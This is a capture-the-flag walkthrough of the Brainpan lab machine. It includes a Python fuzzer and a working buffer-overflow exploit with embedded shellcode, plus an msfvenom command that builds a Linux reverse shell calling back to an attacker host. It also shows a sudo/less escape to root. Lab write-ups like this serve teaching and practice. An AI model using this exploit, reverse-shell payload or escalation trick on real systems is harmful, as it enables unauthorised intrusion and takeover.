







brainpan
Brainpan
Nmap scan shows 2 open ports:
9999 : Application access
10000 : Web server
Upon using gobuster on the web server, I found a hidden directory named bin

We get the brainpan.exe inside the bin. We download it and run it on windows to reverse engineer it.
Default running of application asks for a password. If password is correct is access granted or if password is wrong it shows access denied.
Note: We do not need the correct password. Still following shows the way to find it from strings.


Select shitstorm and follow it.

We see the strcmp, indicating this is compared.
Thus we found password to be shitstorm
Run the program with Immunity Debugger and find the offset using the following fuzzer + metasploit tool.
#!/usr/bin/env python3
import socket, time, sys
ip = "11.11.11.123"
port = 9999
timeout = 5
prefix = ""
string = prefix + "A" * 100
while True:
try:
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.settimeout(timeout)
s.connect((ip, port))
s.recv(1024)
print("Fuzzing Brainpan with {} bytes".format(len(string) - len(prefix)))
s.send(bytes(string, "latin-1"))
s.recv(1024)
except:
print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
sys.exit(0)
string += 100 * "A"
time.sleep(1)
We find offset at : 524
Then we check for badchars.


Status is unmodified, thus stating we dont have any badchars.
Next I look for jump address.

The jump address is entered in retn variable. Use the following exploit.
#!/usr/bin/env python3
#311712F3
#Badchars: \x00
import socket, time, sys
ip = "10.10.89.221"
port = 9999
timeout = 5
prefix = ""
offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 10
payload = ("\xdb\xc7\xba\x72\x1b\xf8\x45\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x83\xe8\xfc\x31\x50\x13\x03\x22\x08\x1a\xb0\xf3\xf5\x2d"
"\xd8\xa0\x4a\x81\x75\x44\xc4\xc4\x3a\x2e\x1b\x86\xa8\xf7\x13"
"\xb8\x03\x87\x1d\xbe\x62\xef\x97\x4b\xdd\xf0\xcf\x49\xdd\x10"
"\x71\xc7\x3c\x9c\x17\x87\xef\x8f\x64\x24\x99\xce\x46\xab\xcb"
"\x78\x37\x83\x98\x10\xaf\xf4\x71\x82\x46\x82\x6d\x10\xca\x1d"
"\x90\x24\xe7\xd0\xd3")
postfix = ""
string = overflow + retn + padding + payload
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
s.connect((ip, port))
print("Delivering Payload into Brainpan.")
time.sleep(1)
s.send(bytes(string + "\r\n", "latin-1"))
print("Done!")
except:
print("Could not connect.")
Note:
It is very important in machine at this point to change the payload.
Initially i tested with windows 10 and immunity debugger + mona
Once the exploit was successfully running in local setup. I decided to move it to server.
But the exploit will fail to work
The reason is the target machine is running Linux and using wine to run the windows executible (Found out later)
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.72.31 LPORT=7777 EXITFUNC=thread -b "\x00" -f c
We use the above code in the payload
Run the above exploit on the machine after having a netcat listener.
We will get a shell with user puck

Privilege Escalation
I loaded linpeas.sh (Download from github and host locally, then using wget download it in the target machine)
After running linpeas.sh
I found a sudo access to puck on a user application.
Note: For the following privilege escalation to work, we need a stable shell. (Say python pty shell)
This is because, the sudo access runs man command in background.
By searching for sudo on man in GTFObins i found the following.

Now why a stable shell is necessary ?
if we run the program in normal shell. The output of man command is thrown on screen in one go.
However, for the above escalation to work, we need the man output in the “less” application
while running a python bash shell when i run the program using the proper argument. It will open the results in less.
There we can enter !/bin/sh to spawn a root shell.


We run sudo /home/anansi/bin/anansi_util manual man

As the “Program Console” asks us to hit Enter. We type the !/bin/sh and get a root shell.

Or
We can hit Enter in program console and go into the less display as shown below and type the !/bin/sh as shown to get root shell.

Upon hitting enter we get the root shell.

Thanks!!